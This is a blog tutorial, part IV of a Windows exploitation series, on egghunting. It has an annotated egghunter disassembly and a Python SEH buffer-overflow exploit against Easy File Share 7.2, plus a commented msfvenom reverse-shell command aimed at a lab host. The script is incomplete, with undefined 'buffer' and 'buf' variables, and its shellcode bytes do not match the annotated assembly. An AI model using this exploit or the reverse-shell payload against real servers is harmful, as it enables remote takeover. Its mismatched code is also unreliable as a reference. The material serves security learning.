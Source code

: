 ```yaml
---
layout: post
title:  "Windows Exploitation Part IV"
date:   2020-1-1 00:04:00 +0000
categories: Windows-Exploitation
---
```


# Windows Exploitation Part IV - Egghunting
For this part, we will need to use all the knowledge weve gained in all the parts before this. This particular exploit will be a stack buffer overflow with seh and what we will learn to be an egg and an egghunter.

# What is egghunting?
When we wish to exploit an application with limited buffer space, our shellcode may not be able to execute. Egghunting is a method of storing and retrieving the shellcode within memory that uses a stored word or 'egg'.
We then introduce a small piece of assembly to search the entire stack frame for that egg, since we prepad our shellcode with the egg, once the code finds and jumps to the next instruction, our shellcode should execute.
When running the egghunter, we will notice that windows system resources will spike, this is due to the egghunter searching the entirety of the stack, the spike will subside once the egg is found or the memory is depleted.

# Egghunter assembly
Im going to attempt to make sense of a sample egghunter so hopefully it makes sense. Im not an amazing assembly god but this should make sense to anyone. This particular sample is from the Skape guide which ill reference later.

Assembly breakdown:
```

00000000	6681CAFF0F	or dx, 0xfff	# OR DX with 4096
00000005	42		inc edx		# INCREMENT edx
00000006	52		push edx	# PUSH edx
00000007	6A43		push byte +0x43	# PUSH the byte at +0x43
00000009	58		pop eax		# POP eax
0000000A	CD2E		int 0x2e	# INTERUPT (ntdll)
0000000C	3C05		cmp al, 0x5	# COMPARE AL to 5
0000000E	5A		pop edx		# POP edx
0000000F	74EF		jz 0x0		# Jump if Zero
00000011	B890505090	mov eax, 0x50909050	# MOVE egg to eax
00000016	8BFA		mov edi, edx	# MOVE edx to edi
00000018	AF		scasd		# SCAN(cmp eax with edi)
00000019	75EA		jnz 0x5		# Jump if Not Zero (to 5)
0000001B	AF		scasd		# SCAN(cmp eax with edi)
0000001C	75E7		jnz 0x5		# Jump if Not Zero(to 5)
0000001E	FFE7		jmp edi		# Jump to edi # both ifs
```

# TL;DR
is that this piece of code will slowly increment through the stack space looking for a stored word (commonly 'W00T', as it is highly unlikely to appear normally). You will notice that there are 2 checks, this is because there is instances where the hunter may find parts of itself or other remnants
Two checks means we need to prepend 2 eggs to the beginning of our shellcode. Once the 2 checks are met, the egghunter jumps to the top of our shellcode and we get execution.

# Exploit building
Now that we know a little about how things _should_ work, we should test this out. The application i first learnt to do this method of exploitation on is 'Easy File Share 7.2' and as mentioned before, we will need to use what we learnt about SEH and buffer overflows to work this.



# Putting it all together
Final exploit should look something like this, ive kept all the rubbish from dev in as a reference.
{% highlight python %}
import socket
rhost = "192.168.9.147" # vm local address
rport = 80

max_size = 5000
seh_off = 4059
eax_off = 4183
nseh = "\x90\x90\xeb\x0a" # short jump by 10 bytes over seh
seh = "\xf2\x95\x01\x10" # POP POP RET (0x100195f2)
pad = "A" * (eax_off - len(buffer))
pad += "DDDD"

# pattern buffer was removed.
#buffer = "A" * (max_size - len(buffer))
'''#bad char checks -> \x00 & \x3b are bad
charchexhere
'''
#egg = w00t (*2)
hunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
hunter +="\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.9.135 LPORT=443 -b "\x00\x3b" -f python
#non meterpreter non staged payload


# Setting up our delivery
httprequest = (
"GET / HTTP/1.1\r\n"
"User-Agent: w00tw00t" + buf + "\r\n"
"Host:" + rhost + ":" + str(rport) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + rhost + "/\r\n"
"Cookie: SESSIONID=6671; UserID=" + buffer + nseh + seh + "A"*8 + hunter + pad + ";PassWD=;\r\n"
"Connection: Keep-Alive\r\n\r\n"
)

# socket setup to send payload to remote host
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[!] sending payload"
s.connect((rhost,rport))
print "[!] Sent!"
s.send(httprequest)
s.close
{% endhighlight %}

# Extra Resources
[Skape - the og egghunting guide](link)
[Corelan Team egghunting guide](link)
[Easy File Share 7.2 download](link)

# Next
Not too sure what to cover next, either going to continue this style and cover ROP / x64 or go deeper and look into more kernel-y stuff.

<br>
Windows Exploitation:
[I](/windows-exploitation/2019/12/31/WinExplP1.html)	[II](/windows-exploitation/2019/12/31/WinExplP2.html)	[III](/windows-exploitation/2019/12/31/WinExplP3.html)	[IV](/windows-exploitation/2019/12/31/WinExplP4.html)	[V](/windows-exploitation/2019/12/31/WinExplP5.html)



